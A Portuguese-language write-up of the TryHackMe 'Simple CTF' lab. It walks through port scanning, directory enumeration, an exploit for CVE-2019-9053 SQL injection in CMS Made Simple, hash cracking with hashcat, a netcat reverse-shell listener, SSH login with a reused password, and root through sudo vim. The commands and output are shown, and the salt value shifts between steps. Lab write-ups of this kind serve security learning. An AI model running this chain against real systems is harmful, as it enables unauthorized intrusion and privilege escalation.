






> [!WARNING]
> This writeup is in portuguese. For the english version, please follow [this link](./Writeup%20(EN-US).md).

# [Simple CTF](https://tryhackme.com/room/easyctf)

<a href="https://tryhackme.com/room/easyctf"><figure></figure></a>

> Beginner level ctf

Capture The Flag original disponível em [Try Hack Me](https://tryhackme.com/room/easyctf), feito por [MrSeth6797](https://tryhackme.com/p/MrSeth6797).

Dificuldade: `Fácil`

Resolvido em: `2026/04/28`

# Conteúdos

- [Simple CTF](#simple-ctf)
- [Conteúdos](#conteúdos)
- [Writeup](#writeup)
   * [Sumário](#sumário)
   * [Reconhecimento](#reconhecimento)
   * [Exploração](#exploração)
   * [Escalação de Privilégios](#escalação-de-privilégios)

# Writeup

## Sumário

Usando um SQL injection é possível descobrir a senha de acesso do servidor que, por negligência, também é da máquina.

## Reconhecimento

Como de usual, a primeira coisa a se fazer é colocar o IP da máquina como um host em `/etc/hosts` para fácil acesso. Escolhi `ectf.net`, e testando para verificar se tudo está funcionando:

```bash
$ ping -c 3 ectf.net     
PING ectf.net (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from ectf.net (<MACHINE_IP>): icmp_seq=1 ttl=62 time=163 ms
64 bytes from ectf.net (<MACHINE_IP>): icmp_seq=2 ttl=62 time=186 ms
64 bytes from ectf.net (<MACHINE_IP>): icmp_seq=3 ttl=62 time=208 ms

--- ectf.net ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 162.716/185.450/207.903/18.448 ms
```

Com isso, parte-se à próxima etapa: a busca por portas. Realizando uma busca simples com `nmap`:[^nmap]

```bash
$ nmap -p- -sV -sC -T4 -o nmap_scan ectf.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-29 00:25 UTC
Nmap scan report for ectf.net (<MACHINE_IP>)
Host is up (0.15s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:<MY_MACHINE>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 171.88 seconds
```

Com isso, já é possível resolver duas questões:
- Q: How many services are running under port `1000`? A: `2`
- Q: What is running on the higher port? A: `ssh`

E então realmente começa o reconhecimento. Como primeiro ponto de entrada, chequei o que estava no html...

<figure></figure>

É uma página padrão do Apache2. Bem, já que está assim, não há muito o que se fazer senão usar o `gobuster`[^gobuster] para encontrar mais diretórios. Eu usei ele junto de uma das listas padrões do kali linux:[^wl-dir23med]

```bash
$ gobuster dir -u ectf.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

Eu não acho que terão muitos resultados. Enquanto o `gobuster` roda, decidi explorar o `ftp` como `anonymous` para verificar o que estava disponível:

```bash
$ ftp ectf.net 21
Connected to ectf.net.
220 (vsFTPd 3.0.3)
Name (ectf.net:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |********************************|   166        1.95 MiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.10 KiB/s)
ftp> bye
221 Goodbye.
```

Muito bem, tinha apenas um arquivo, `ForMitch.txt`:

```
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Realmente, Mitch, nunca use a mesma senha para duas coisas. De acordo com esse outro (eu assumo) hacker, então a senha que eu encontrar deve ser a mesma para o usuário. Deve ser o `ssh`, e meu chute já é que o usuário é "mitch".

Dito isso, voltando ao `gobuster`, apenas um novo diretório apareceu:

```bash
$ gobuster dir -u ectf.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/simple               (Status: 301) [Size: 305] [--> http://ectf.net/simple/
```

Enquanto `robots.txt` parece ser o arquivo padrão para o Apache2, o diretório `/simple` é muito mais interessante:

<figure></figure>

É a página padrão para o *CMS Made Simple*. Bem, não tem muito aqui... Temos apenas uma notícia deixada por nosso amigo "mitch":

<figure></figure>

Mais uma vez este "mitch" aparece. Seguindo rumo, fazendo outra pesquisa com `gobuster` apenas agora no `ectf.net/simple` obtive: 

```bash
$ gobuster dir -u ectf.net/simple -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 19593]
/modules              (Status: 301) [Size: 313] [--> http://ectf.net/simple/modules/]                                                                     
/uploads              (Status: 301) [Size: 313] [--> http://ectf.net/simple/uploads/]                                                                     
/doc                  (Status: 301) [Size: 309] [--> http://ectf.net/simple/doc/]                                                                         
/admin                (Status: 301) [Size: 311] [--> http://ectf.net/simple/admin/]                                                                       
/assets               (Status: 301) [Size: 312] [--> http://ectf.net/simple/assets/]                                                                      
/install.php          (Status: 301) [Size: 0] [--> /simple/install.php/index.php]                                                                         
/lib                  (Status: 301) [Size: 309] [--> http://ectf.net/simple/lib/]
/config.php           (Status: 200) [Size: 0]
/tmp                  (Status: 301) [Size: 309] [--> http://ectf.net/simple/tmp/]
```

Bem, a maior parte destes não ajuda muito, mas `/admin` aparenta ser o painel de admin:

<figure></figure>

Apesar de ter o usuário, sem nenhuma indicação de senha (e te garanto que URI fuzzing não funcionou) decidi procurar por informações em outro lugar.

## Exploração

Sem muitas outras opções, recorri ao `searchsploit`[^srchspl] para verificar se existia algum *exploit* disponível para CMS Made Simple. Filtrando apenas aqueles que estão disponíveis para a versão deste site (`2.2.8`), encontrei:

```bash
$ searchsploit CMS Made Simple
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
...
CMS Made Simple < 2.2.10 - SQL Injection                                                    | php/webapps/46635.py
CMS Made Simple Showtime2 Module 3.6.2 - (Authenticated) Arbitrary File Upload              | php/webapps/46546.py
...
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Temos um [SQL Injection](https://www.exploit-db.com/exploits/46635)! Com isso, outras duas perguntas são respondidas:
- Q: What's the CVE you're using against the application? A: `CVE-2019-9053`
- Q: To what kind of vulnerability is the application vulnerable? A: `sqli`

Ajustando o código python[^py] do exploit (estava em python2, tive de fazer o upgrade para python3), basta executar o código:

```bash
$ python3 ~/Desktop/46635.py -u http://ectf.net/simple/ --crack -w ~/Desktop/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6b9
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

Devo notar que precisei executar esse código diversas vezes para que as informações establizassem. Havia alguma entropia atrapalhando os resultados.

Com isso, obtive um hash: `0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6b9`. Uma verificação rápida com `hashid`[^hashid] revela que é MD5:

```bash
$ hashid 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
Analyzing '0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2'
[+] MD5 
[+] MD4 
[+] Double MD5
...
```

Tentei progressivamente quebrar com `hashcat`[^hashcat] (e a wordlist `rockyou`[^rockyou]) as diversas versões do MD5 que continham um *salt* até finalmente obter uma resposta com `md5($salt.$pass)`:

```bash
$ hashcat -a 0 -m 20 "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" /usr/share/wordlists/rockyou.txt.gz
...
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:<FLAG0>  

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
...
Started: Tue Apr 28 23:47:07 2026
Stopped: Tue Apr 28 23:47:18 2026
```

Ótimo! Mais uma pergunta respondida.
- Q: What's the password? A: <FLAG0>

Com essa senha consegui acesso ao painel de admin!

<figure></figure>

E eventualmente a uma área de upload de arquivos:

<figure></figure>

Cheguei até a montar um revshell[^rv] aqui, mas uma vez que o usuário designado é `www-data`:

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [<MY_MACHINE>] from (UNKNOWN) [<MACHINE_IP>] 32898
Linux Machine 4.15.0-58-generic #64~16.04.1-Ubuntu SMP Wed Aug 7 14:09:34 UTC 2019 i686 i686 i686 GNU/Linux
 03:12:54 up  1:23,  0 users,  load average: 0.25, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off

$ whoami
www-data
```

Os privilégios estavam muito bem configurados e não consegui acesso às pastas de usuário. Descobri, porém, que existia outro usuário na máquina.

```bash
$ pwd
/home
$ ls
mitch
<FLAG1>
```

- Q: Is there any other user in the home directory? What's its name? A: <FLAG1>

Dito isso, tive de relembrar a mensagem anterior deixada por outro hacker... ou, eu suponho, por <FLAG1>. Nela dizia que mitch usou a mesma senha para o usuário.

```bash
$ nmap --script ssh-auth-methods --script-args="ssh.user=username" -p 2222 ectf.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-29 00:30 UTC
Nmap scan report for ectf.net (<MACHINE_IP>)
Host is up (0.15s latency).

PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password

Nmap done: 1 IP address (1 host up) scanned in 1.41 seconds
```

O ssh aceita senha! Então decidi tentar fazer o login.
- Q: Where can you login with the details obtained? A: ssh

```bash
$ ssh mitch@ectf.net -p 2222
mitch@ectf.net's password: <FLAG0>
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190

$ whoami
mitch
```

## Escalação de Privilégios

Finalmente entrei na máquina! Com isso, é rápido encontrar a bandeira de usuário:

```bash
$ pwd
/home/mitch
$ cat user.txt
<FLAG_USER>
```

E, dando uma bisbilhotada nos resultados de `sudo -l`:

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Temos o `vim` como `NOPASSWD`. 
- Q: What can you leverage to spawn a privileged shell? A: vim

Basta então mandar o vim executar um shell:

```bash
sudo vim -c ':!/bin/sh'

# whoami 
root
...
# pwd
/root
# cat root.txt
<FLAG_ROOT>
```

Que assim obtive a bandeira de root.

[^nmap]: https://github.com/nmap/nmap
[^gobuster]: https://github.com/OJ/gobuster
[^srchspl]: https://www.exploit-db.com/searchsploit
[^wl-dirl23med]: https://gitlab.com/kalilinux/packages/dirbuster/-/blob/37f2e9bb1c50bee238aa50d795cf853bb28b2997/directory-list-2.3-medium.txt
[^rv]: https://en.wikipedia.org/wiki/Shell_shoveling
[^hashid]: https://psypanda.github.io/hashID/
[^hashcat]: https://hashcat.net/hashcat/
[^rockyou]: https://weakpass.com/wordlists/rockyou.txt
[^py]: https://www.python.org/